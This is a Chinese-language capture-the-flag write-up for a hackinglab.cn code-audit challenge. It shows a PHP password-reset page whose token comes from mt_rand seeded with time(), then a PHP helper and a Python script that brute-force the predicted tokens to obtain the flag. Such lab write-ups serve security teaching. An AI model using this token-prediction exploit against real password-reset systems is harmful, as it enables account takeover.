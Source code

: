 ### 小明学习代码审计writeup

>题目来自hackinglab.cn 综合关
>题目地址：http://lab1.xseclab.com/pentest6_210deacdf09c9fe184d16c8f7288164f/index.php

访问题目地址得到如下源码：
```html
Please Reset Your Password Then Get your flag!
<a href="./resetpwd.php"></a>
```
根据链接的复制访问resetpwd.php，并查看网页源码，发现注释中有PHP代码：

```php
<?php 
session_start();
include '_flag.php';
date_default_timezone_set('Asia/Shanghai');
if(isset($_POST['token']) && isset($_SESSION['token']) &&!empty($_POST['token'])&&!empty($_SESSION['token'])){
    if($_POST['token']==$_SESSION['token']){
        echo "PassResetSuccess! Your Flag is:".$flag;
    }else{
    	echo "Token_error!";
    }
}else{
    mt_srand(time());
    $rand= mt_rand();
    $_SESSION['token']=sha1(md5($rand));
    echo "Token Generate Ok! now send email to your EmailBox!.....";
    if(sendmymail($_SESSION['token'])){
    	echo "SendOK! \r\n<br> Your password reset Token has been send to your mailbox! <br>Please Check your mail box and fill your token here to reset your password!<br>";
    };
}
echo '<form action="" method="POST">
	<input type="text" name="token">
    <input type="submit" value="submit">
</form>';
echo "<!--\r\n".file_get_contents(__FILE__);
?>
```
分析源码可知，只有得到正确的token才能得到flag。如果未提交token，直接请求resetpwd.php页面，token就会被重置。如果提交了token，token则不会改变。

代码中描述了token生成的方式，采用了随机数的方式
```php
mt_srand(time());
$rand= mt_rand();
$_SESSION['token']=sha1(md5($rand));
```
根据随机数生成的规则，只要mt_srand()的参数相同，生成的随机数其实是固定的。因此我们可以编写如下exp：

辅助脚本
```php
$base = time();  
//设定一个时间区间，来确保可以碰撞到正确的时间
for($i = -5;$i <= 5;$i++)
{
    mt_srand($base+$i);
    $rand = mt_rand();
    echo sha1(md5($rand))."<br/>";
}
```
EXP
```python
import requests
r = requests.get('http://localhost/ttt.php')
rlt = r.text.split('<br/>')
rlt = rlt[:-1]
data = {}
header  = {"Cookie":"PHPSESSID=294a9b966570ae34347a613e894d3271","Referer":"http://lab1.xseclab.com/pentest6_210deacdf09c9fe184d16c8f7288164f/index.php"}
url = 'http://lab1.xseclab.com/pentest6_210deacdf09c9fe184d16c8f7288164f/resetpwd.php'
#重置token
r = requests.get(url,headers=header)

for i in rlt:
    data["token"] = i
    r = requests.post(url,data=data,headers=header)
    r.encoding = r.apparent_encoding
    if "Token_error!" not in r.text[:60]:
        print(r.text[:60])
```
得到flag
```txt
PassResetSuccess! Your Flag is:NotSecurityRandomNowYouKnown<
```